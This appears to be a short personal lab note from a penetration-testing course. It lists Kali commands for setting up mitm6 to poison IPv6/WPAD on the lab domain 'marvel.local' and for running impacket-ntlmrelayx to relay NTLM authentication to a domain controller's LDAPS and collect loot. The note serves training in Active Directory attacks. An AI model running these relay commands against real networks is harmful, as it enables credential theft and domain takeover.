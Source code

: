 # On Kali
---
- Setting up mitm6:
	- `git clone https://github.com/dirkjanm/mitm6.git`
	- `python3 -m venv mitm6_env`
	- `source mitm6_env/bin/activate`
	- `pip install -r requirements.txt`
	- Add this in `mitm6.py` file as we are using VPN:
		- ![[Pasted image 20250329024836.png]]
- `sudo python3 mitm6.py -d marvel.local`
	- d -> domain name
	- ![[Pasted image 20250329024902.png]]

- Start `impacket-ntlmrelayx` as:
	- Needs `DC` IP
	- `impacket-ntlmrelayx -6 -t ldaps://10.0.8.4 -wh fakewpad.marvel.local -l lootme`
		- `6` -> IPv6
		- `-t` -> target
		- `-wh` -> wpad
		- `-l` -> lootfile
